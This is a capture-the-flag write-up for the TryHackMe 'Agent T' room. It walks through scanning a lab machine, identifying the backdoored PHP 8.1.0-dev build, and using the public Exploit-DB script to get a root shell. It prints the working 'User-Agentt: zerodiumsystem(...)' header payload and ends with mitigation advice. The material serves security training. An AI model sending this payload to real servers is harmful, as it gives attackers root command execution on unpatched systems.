

# Agent T


> Something seems a little off with the server.

**Task:** find the flag in the root of the filesystem.

**Room link:** https://tryhackme.com/room/agentt

---

## 1. Verify the machine is running

```bash
ping -c 3 10.130.184.219
```

- `-c 3` sends 3 ICMP echo requests and then stops

```
PING 10.130.184.219 (10.130.184.219) 56(84) bytes of data.
64 bytes from 10.130.184.219: icmp_seq=1 ttl=62 time=11.8 ms
64 bytes from 10.130.184.219: icmp_seq=2 ttl=62 time=9.64 ms
64 bytes from 10.130.184.219: icmp_seq=3 ttl=62 time=9.38 ms

--- 10.130.184.219 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2005ms
rtt min/avg/max/mdev = 9.375/10.258/11.760/1.067 ms
```

The machine is running.

## 2. Scanning for open ports

```bash
nmap -sC -sV -v 10.130.184.219
```

- `-sC` runs nmap's default set of scripts against open ports (basic enumeration, banner grabbing, etc.)
- `-sV` probes open ports to determine the service and version running on them
- `-v` increases verbosity, so results are printed as they come in rather than only at the end

```
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
| http-methods:
|_  Supported Methods: GET POST OPTIONS
|_http-title:  Admin Dashboard
```

Only one port is open: `80/tcp`, serving a PHP built-in development server, and the version banner already gives something away — `PHP 8.1.0-dev`.

## 3. Inspecting the website

Visiting the site in a browser shows an "Admin Dashboard", but none of the buttons actually do anything.



Checking the page source doesn't help either — there's nothing useful hiding in the client-side code. If the way in exists, it's more likely in the server itself than in the web app's logic.

## 4. Searching for a PHP 8.1.0-dev exploit

The real clue is that `-dev` tag in the version banner. `PHP 8.1.0-dev` is notorious: for a short window in March 2021, an early development build of PHP was released with a backdoor secretly inserted into its source code. It was spotted and removed quickly, but any server still running that exact build is vulnerable. Let's check if there's a public exploit for it:

```bash
searchsploit PHP 8.1.0-dev
```

- `searchsploit` searches the local, offline copy of the Exploit-DB database for exploits matching the given keywords

Scrolling through the results, one entry matches our exact version:

```
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution | php/webapps/49933.py
```

## 5. Fetching the exploit

```bash
searchsploit -m php/webapps/49933.py
```

- `-m` ("mirror") copies the matching exploit file out of the local Exploit-DB copy and into the current directory, instead of having to dig for it manually under `/usr/share/exploitdb`

```
Exploit: PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution
    URL: https://www.exploit-db.com/exploits/49933
   Path: /usr/share/exploitdb/exploits/php/webapps/49933.py
Copied to: /home/verykraken/49933.py
```

## 6. Understanding the exploit

Reading through `49933.py`:

```python
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
    "User-Agentt": "zerodiumsystem('" + cmd + "');"
}
```

The planted backdoor triggers on a request header literally named `User-Agentt` (double "t") — note that this is a *different* header from the normal `User-Agent` sent alongside it. Whatever string is placed in that header gets handed straight to PHP's `zerodiumsystem()`, which executes it as a shell command and reflects the output back into the HTML response.

The script itself just wraps this into a simple interactive loop:
1. Ask the user for the target's full URL.
2. Confirm the host responds with a `200 OK`.
3. Read a command from the user, send it inside the `User-Agentt` header, and print back whatever text came back before the `<!DOCTYPE html>` of the page (i.e. the command's output).

In short, it's a crude but fully interactive pseudo-shell built entirely out of HTTP headers.

## 7. Running the exploit

```bash
python3 49933.py
```

```
Enter the full host url:
http://10.130.184.219

Interactive shell is opened on http://10.130.184.219
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)
```

We land directly on a root shell — the PHP development server itself was running as `root`, so there's no privilege escalation step needed at all.

## 8. Finding the flag

```bash
find / -type f -name "*.txt" 2>/dev/null
```

- `-type f` only match regular files, skipping directories and other file types
- `-name "*.txt"` only match files whose name ends in `.txt`
- `2>/dev/null` redirects stderr (file descriptor 2, where `find` writes its "Permission denied" errors) to `/dev/null`, so the output isn't drowned out by noise from directories we can't read

```
/usr/share/doc/libdb5.3/build_signature_amd64.txt
...
/var/www/html/vendor/fontawesome-free/LICENSE.txt
/flag.txt
```

`/flag.txt` stands out at the filesystem root, exactly where the task said to look.

```bash
cat /flag.txt
```

```
flag{...}
```

Room solved.

## Takeaways

This is a textbook case of **running unpatched/development software in production**. `PHP 8.1.0-dev` was a leaked pre-release build that briefly contained a backdoor committed straight into PHP's source tree, triggered by a non-standard HTTP header (`User-Agentt`) rather than any flaw in the web application itself. Because the PHP process was running as `root`, exploiting the backdoor gave immediate root access with zero further privilege escalation required.

**Mitigation:**
- Never run development/nightly builds of a language runtime or interpreter on production or internet-facing systems — only use stable, vetted releases.
- Keep all software up to date and monitor vendor security advisories and supply-chain incidents.
- Never run a web server process as `root`; use a dedicated, low-privilege service account instead.
- Monitor and alert on anomalous or non-standard HTTP headers reaching application servers.